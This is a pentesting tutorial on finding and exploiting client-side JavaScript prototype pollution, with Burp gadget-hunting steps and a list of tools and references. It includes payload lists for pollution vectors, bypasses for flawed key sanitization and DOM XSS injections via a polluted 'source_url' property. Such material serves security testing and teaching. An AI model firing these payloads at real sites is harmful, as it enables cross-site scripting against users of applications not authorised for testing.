 # Client-Side Prototype Pollution

## Introduction

Client-side prototype pollution is a powerful vulnerability that allows attackers to manipulate JavaScript's global objects by injecting properties into prototypes. This guide will walk you through the process of identifying and exploiting these vulnerabilities, both manually and using automated tools like DOM Invader. You’ll also get hands-on practice exploiting prototype pollution for DOM-based Cross-Site Scripting (XSS) on intentionally vulnerable labs.

## Finding Client-Side Prototype Pollution Sources Manually

**High-Level Steps:**

1.  **Inject Arbitrary Properties**: Attempt to inject properties into the `Object.prototype` using the query string, URL fragment, or JSON input. For example:

    ```javascript
    vulnerable-website.com/?__proto__[foo]=bar
    ```
2.  **Inspect the Prototype**: Use the browser console to check if the property was successfully added:

    ```javascript
    Object.prototype.foo
    ```
3.  **Try Different Techniques**: If unsuccessful, alternate between dot notation and bracket notation:

    ```javascript
    vulnerable-website.com/?__proto__.foo=bar
    ```
4. **Explore Alternative Vectors**: If direct injection fails, attempt to exploit the prototype via its constructor.

## Identifying Gadgets for Exploitation

Once you’ve identified a source, the next step is to find gadgets—pieces of code that can be exploited using the polluted properties.

**Manual Gadget Hunting:**

1. Look through the source code and identify any properties that are used by the application or any libraries that it imports.
2. In Burp, enable response interception (**Proxy > Options > Intercept server responses**) and intercept the response containing the JavaScript that you want to test.
3. Add a `debugger` statement at the start of the script, then forward any remaining requests and responses.
4. In Burp's browser, go to the page on which the target script is loaded. The `debugger` statement pauses execution of the script.
5. While the script is still paused, switch to the console and enter the following command, replacing `YOUR-PROPERTY` with one of the properties that you think is a potential gadget:

```javascript
Object.defineProperty(Object.prototype, 'YOUR-PROPERTY', {
    get() {
        console.trace();
        return 'polluted';
    }
})
```

The property is added to the global `Object.prototype`, and the browser will log a stack trace to the console whenever it is accessed.

6. Press the button to continue execution of the script and monitor the console. If a stack trace appears, this confirms that the property was accessed somewhere within the application.
7. Expand the stack trace and use the provided link to jump to the line of code where the property is being read.
8. Using the browser's debugger controls, step through each phase of execution to see if the property is passed to a sink, such as `innerHTML` or `eval()`.
9. Repeat this process for any properties that you think are potential gadgets.

## Exploitation

* Reflected XSS: [Reflected XSS on www.hackerone.com via Wistia embed code - #986386](https://hackerone.com/reports/986386)
* Client-side bypass: [Prototype pollution – and bypassing client-side HTML sanitizers](https://research.securitum.com/prototype-pollution-and-bypassing-client-side-html-sanitizers/)

### Bypasses

#### Prototype Pollution via the Constructor

Apart from the classic `__proto__` vector, attackers can also exploit the `constructor` property of JavaScript objects. By manipulating the constructor, you can gain access to the object’s prototype and pollute it without relying on the `__proto__` string.

#### Bypassing Flawed Key Sanitization

A common defense against prototype pollution is sanitizing property keys before merging them into objects. However, flawed sanitization processes that fail to recursively strip dangerous keys can be bypassed using creative input crafting.

```http
https://example.com/?__proto__[foo]=bar
https://example.com/?__proto__.foo=bar
https://example.com/?constructor.[prototype][foo]=bar
https://example.com/?constructor.prototype.foo=bar
Object.constructor.prototype.evilProperty="evilPayload"
Object.constructor["prototype"]["evilProperty"]="evilPayload"
x[__proto__][abaeead] = abaeead
x.__proto__.edcbcab = edcbcab
__proto__[eedffcb] = eedffcb
__proto__.baaebfc = baaebfc
?__proto__[test]=test

# Bypass sanitization
https://example.com/?__pro__proto__to__[foo]=bar
https://example.com/?__pro__proto__to__.foo=bar
https://example.com/?constconstructorructor[prototype][foo]=bar
https://example.com/?constconstructorructor.prototype.foo=bar
https://example.com/?constconstructorructor[protoprototypetype][foo]=bar
https://example.com/?constconstructorructor.protoprototypetype.foo=bar
```

### Exploit to DOM XSS

If our payload affects an HTML element after loading, we can inject DOM-based XSS as below.\
Assume the key name of the property is "source\_url", whose value is loaded as "src" in a `script` element. What property name is defined might be found by investigating JavaScript code assigned in the website.

```http
https://example.com/?__proto__[source_url]=data:,alert(1);
https://example.com/?__proto__[source_url]=data:,alert(1);
https://example.com/?__proto__[source_url]=alert(1)-
```

### **Bypass HTML sanitizers**

{% embed url="https://research.securitum.com/prototype-pollution-and-bypassing-client-side-html-sanitizers/" %}

Research has shown that certain HTML sanitizers like `sanitize-html` and `DOMPurify` can be bypassed using prototype pollution gadgets. Understanding how to exploit these sanitizers can elevate your attack strategy.

* **sanitize-html**

<figure><img src="https://research.securitum.com/wp-content/uploads/sites/2/2020/08/image-5-1024x137.png" alt="" height="137" width="1024"><figcaption></figcaption></figure>

* XSS

{% embed url="https://research.securitum.com/wp-content/uploads/sites/2/2020/08/image-7.png" %}

*   #### dompurify



<figure><img src="../../.gitbook/assets/image (282).png" alt=""><figcaption></figcaption></figure>

## Tools for Detecting Prototype Pollution

* [**ppfuzz**](https://github.com/dwisiswant0/ppfuzz): A tool for fuzzing and finding prototype pollution vulnerabilities.
* [**ppmap**](https://github.com/kleiton0x00/ppmap): A map of known prototype pollution vulnerabilities in JavaScript libraries.
* [**proto-find**](https://github.com/kosmosec/proto-find): A tool for finding prototype pollution sources.
* [**PPScan**](https://github.com/msrkp/PPScan): A browser extension for automatically scanning web pages for prototype pollution vulnerabilities.
* [Dom-Invador](https://portswigger.net/burp/documentation/desktop/tools/dom-invader/prototype-pollution#detecting-sources-for-prototype-pollution): Burp Browser Extension Automating Hunting for pp

## Resources

* [PortSwigger Web Security](https://portswigger.net/web-security/prototype-pollution/client-side)
* [Intigriti Revenge Challenge Writeup](https://blog.huli.tw/2022/05/02/en/intigriti-revenge-challenge-author-writeup/)
* [GitHub - Client-Side Prototype Pollution](https://github.com/BlackFan/client-side-prototype-pollution)
* [Khaled-Sakr Video](https://www.youtube.com/watch?v=xc7iilyFCWA) \[Arabic]
* [https://www.youtube.com/watch?v=elRZDl8i0RY](https://www.youtube.com/watch?v=elRZDl8i0RY) \[Arabic]
* [pp-research](https://blog.s1r1us.ninja/research/PP)
* [https://blog.huli.tw/2022/05/02/en/intigriti-revenge-challenge-author-writeup/](https://blog.huli.tw/2022/05/02/en/intigriti-revenge-challenge-author-writeup/)
* [https://book.hacktricks.xyz/pentesting-web/deserialization/nodejs-proto-prototype-pollution/client-side-prototype-pollution#finding-script-gadgets](https://book.hacktricks.xyz/pentesting-web/deserialization/nodejs-proto-prototype-pollution/client-side-prototype-pollution#finding-script-gadgets)
* [https://portswigger.net/web-security/cross-site-scripting/cheat-sheet#prototype-pollution](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet#prototype-pollution)
* [https://github.com/BlackFan/client-side-prototype-pollution](https://github.com/BlackFan/client-side-prototype-pollution)
* [https://research.securitum.com/prototype-pollution-and-bypassing-client-side-html-sanitizers/](https://research.securitum.com/prototype-pollution-and-bypassing-client-side-html-sanitizers/)
* [https://github.com/HacKeD0x90/Prototype\_Pollution](https://github.com/HacKeD0x90/Prototype\_Pollution)
* [https://github.com/BlackFan/client-side-prototype-pollution?tab=readme-ov-file\
  ](https://github.com/BlackFan/client-side-prototype-pollution?tab=readme-ov-file)
